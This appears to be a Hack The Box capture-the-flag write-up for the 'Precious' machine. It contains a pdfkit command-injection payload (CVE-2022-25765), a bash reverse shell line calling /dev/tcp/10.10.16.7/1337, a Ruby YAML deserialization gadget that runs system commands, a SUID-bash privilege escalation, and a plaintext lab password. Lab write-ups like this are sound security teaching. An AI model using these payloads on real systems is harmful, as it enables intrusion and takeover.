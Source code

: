 # [Precious](https://app.hackthebox.com/machines/precious)

```bash
nmap -p- --min-rate 10000 10.10.11.189 -Pn  
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.189 
```

![Alt text](img/image-1.png)



I just add this ip address into '/etc/hosts' file for resolving purposes.

![Alt text](img/image-2.png)

I just set up http server via `python`, then I submit such an URL into here

And I see that this generates such an `.pdf` file for me.

![Alt text](img/image-3.png)


Let's look at this .pdf file via `exiftool` command.
```bash
exiftool umrcn0cr57a4t019qgec1qqr0kgbnn4o.pdf
```

![Alt text](img/image-4.png)


I see that `Creator` is **'pdfkit v0.8.6'**.


I searched publicly known exploit for this version of product.

I found that this version of product has `Command Injection` vulnerability whose CVE-id is [CVE-2022-25765](https://github.com/UNICORDev/exploit-CVE-2022-25765).


I just try by submitting such data into here.
```bash
http://10.10.16.7:8080/?name=%20`id`
```

I see result of `id` command.

![Alt text](img/image-5.png)


Let's add reverse shell into here like below.
```bash
http://10.10.16.7:8080/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.16.7/1337 0>&1"`
```
![Alt text](img/image-6.png)


I got reverse shell from port (1337).

![Alt text](img/image-7.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-8.png)


I just found `.bundle` directory on `ruby`'s  user home directory. There's sensitive file called '**config**'

![Alt text](img/image-9.png)


henry: Q3c1AqGHtoI0aXAYFH

user.txt

![Alt text](img/image-10.png)


For privilege escalation, I just run `sudo -l` command.

![Alt text](img/image-11.png)


While reading this file, I see that `dependencies.yml` file is shown.

![Alt text](img/image-12.png)


Let's create our malicious `.yml` file as below which we inject `id` command here (git_set variable).
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id

         method_id: :resolve
```


Yes, that's worked while I execute `.rb` file. (`id` command's result is here)

![Alt text](img/image-13.png)


Now, I add malicious command into here, which create copy of `/bin/bash` and give `SUID` permission.
```bash
cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks
```

![Alt text](img/image-14.png)


Let's run this executable via `./dr4ks -p` to get root shell.


root.txt

![Alt text](img/image-15.png)